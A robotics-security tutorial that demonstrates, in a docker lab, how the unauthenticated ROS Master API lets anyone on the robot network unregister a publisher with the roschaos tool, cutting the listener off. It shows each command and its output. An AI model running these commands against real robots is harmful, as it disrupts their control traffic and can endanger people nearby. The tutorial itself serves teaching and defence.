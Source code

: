 \newpage

## Unauthenticated registration/unregistration with ROS Master API

In this tutorial we'll review how the [ROS Master API](http://wiki.ros.org/ROS/Master_API#register.2BAC8-unregister_methods) requires no authentication capabilities to register and unregister publishers, subscribers and services. This leads to a [reported vulnerability] (https://github.com/aliasrobotics/RVDP/issues/87) that can easily be exploited with off-the-shelf penetration testing tools by an attacker with access to the internal robot network.

This work is heavily based on [1],[3] and [4].

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity11:latest .
```
and run with:
```bash
docker run -it basic_cybersecurity11:latest
```

----

Let's start by listing the ROS Nodes and Topics participating in the network. After launching the container:
```bash
root@d64845e9601e:/# rosrun scenario1 talker &
root@d64845e9601e:/# rosrun scenario1 listener
```

Now, let's get a second command line into the simulated robotic scenario running over docker. To do so:

```bash
| => docker ps
CONTAINER ID        IMAGE                          COMMAND                  CREATED             STATUS              PORTS               NAMES
935c390c1e49        basic_cybersecurity11:latest   "/root/launch_script…"   20 seconds ago      Up 19 seconds                           vibrant_chandrasekhar

| => docker exec -it 935c390c1e49 /bin/bash
root@935c390c1e49:/#

```

On the second terminal of the same docker instance:
```bash

root@d64845e9601e:/# rosnode list
/listener
/publisher
/rosout
root@d64845e9601e:/# rostopic list
/flag
/rosout
/rosout_agg
```

We can see that there're several Nodes, we're mainly interested on `/publisher` and `/listener`. Both, exchanging information through the `/flag` Topic as follows:

```bash
root@d64845e9601e:/# rostopic echo /flag
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
data: "br{N(*-E6NgwbyWc"
---
...
```

### Unregistering `/publisher` from `/listener`

```bash
root@655447dc534c:/# rosnode list
/listener
/publisher
/rosout
root@655447dc534c:/# roschaos master unregister node --node_name /publisher
Unregistering /publisher
```

You will see that the listener stops getting messages. If we now verify it:

```bash
root@655447dc534c:/# rosnode list
/listener
/rosout
```

We observe that the ROS Master does not find `/publisher` anymore, it's been unregistered.
Furthermore, the process `talker` is still running:

```bash
root@655447dc534c:/# ps -e
  PID TTY          TIME CMD
    1 pts/0    00:00:00 launch_script.b
   31 pts/0    00:00:00 roscore
   42 ?        00:00:01 rosmaster
   55 ?        00:00:01 rosout
   72 pts/0    00:00:00 bash
   78 pts/1    00:00:00 bash
   90 pts/0    00:00:00 talker
  108 pts/0    00:00:01 listener
  174 pts/1    00:00:00 ps
```


### Resources
- [1] Mendia, G. O., Juan, L. U. S., Bascaran, X. P., Calvo, A. B., Cordero, A. H., Ugarte, I. Z., ... & Vilches, V. M. (2018). Robotics CTF (RCTF), a playground for robot hacking. arXiv preprint arXiv:1810.02690.
- [2] Scenarios of the Robotics CTF (RCTF), a playground to challenge robot security. Retrieved from https://github.com/aliasrobotics/RCTF
- [3] Dieber, B., Breiling, B., Taurer, S., Kacianka, S., Rass, S., & Schartner, P. (2017). Security for the Robot Operating System. Robotics and Autonomous Systems, 98, 192-203.
- [4] SROS2 Tutorial, IROS 2018. Retrieved from https://ruffsl.github.io/IROS2018_SROS2_Tutorial/.
- [5] roschaos. Retrieved from https://github.com/ruffsl/roschaos.
- [6] ROSPenTo. Retrieved from https://github.com/jr-robotics/ROSPenTo.

